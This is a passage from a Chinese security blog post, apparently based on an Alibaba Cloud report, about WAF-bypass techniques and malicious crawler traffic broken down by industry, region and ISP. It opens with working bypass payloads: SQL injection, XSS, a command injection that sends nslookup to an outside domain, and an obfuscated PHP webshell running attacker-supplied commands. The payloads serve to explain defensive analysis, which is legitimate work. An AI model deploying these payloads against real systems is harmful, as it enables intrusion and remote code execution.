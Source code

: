 ```
·x=1 /*!10000union*//**/select 1,2,3
·x=<script>\u0061lert(1)</script>
·x=nslookup${IFS}abcdefg.xxx.com
·x=<?php $func = '';$arr = array('a','s','s','e','r','t');for($i=0;$i<count($arr);$i++) {$func .= $arr[$i];}
$func($_REQUEST['cmd']);
```

第一种是混合利用MySQL的内联注释与注释进行绕过攻击；

第二种是利用JavaScript特殊的宽编码进行绕过；

第三种是利用Linux环境变量符号进行绕过；

第四种是利用变形eval、混合运算、非闭合php代码标签进行绕过

# 爬虫分析

## 1、流量分析

## 行业分布

根据使用阿里云爬虫风险管理产品的用户流量统计，房产交易、交通、游戏、电商、资讯论坛几个行业中恶意爬虫的占比都超过了50%。

![image-20201224114810382](https://gitee.com/funet8/blogimage/raw/master/picgo/image-20201224114810382.png)

这些行业的用户有一个显著的特点是，他们往往对外提供的服务内容有着很强的时效性，比如不同城市的新上房源、不同线路的票务信息、商品价格、简历信息等等，所以会吸引大量爬虫持续的爬取以获取最新的资讯。比较特殊的一个是游戏行业，爬虫则总是聚焦在虚假账号和挂机两个经典场景。

### 地域分布

从区域来源上看，东南亚和美国的流量中恶意爬虫的占比相对较高，当然爬虫的绝对数量上看还是中国大陆占据大头。随着近些年国内黑灰产的专业程度越来越高，手上掌握的全球代理IP资源也越来越丰富，IP层面的对抗已经非常艰难，防护要更多的考虑其他的维度，如设备指纹、异常行为分析、威胁情报以及业务层面的对抗。

![image-20201224114916810](https://gitee.com/funet8/blogimage/raw/master/picgo/image-20201224114916810.png)

从国内的省份分布来看，北京、江苏、浙江分列爬虫流量占比的前三位，随着秒拨IP的全面普及，爬虫的来源分布会越来越模糊，“大隐隐于市”，最终无限逼近真实用户的分布情况：

![image-20201224114941009](https://gitee.com/funet8/blogimage/raw/master/picgo/image-20201224114941009.png)

### ISP分布

从爬虫来源运营商的请求量绝对值分布来看，三家运营商和阿里云占就据了约98%的流量：

![image-20201224115012923](https://gitee.com/funet8/blogimage/raw/master/picgo/image-20201224115012923.png)

### 爬虫分级

机器流量手法分级,我们按照机器流量攻击的复杂度和防御难度，对构建机器流量的手法进行分级：

【简单接口爬虫】：直接构造脚本请求，或使用开源爬虫框架进行攻击的初级攻击者
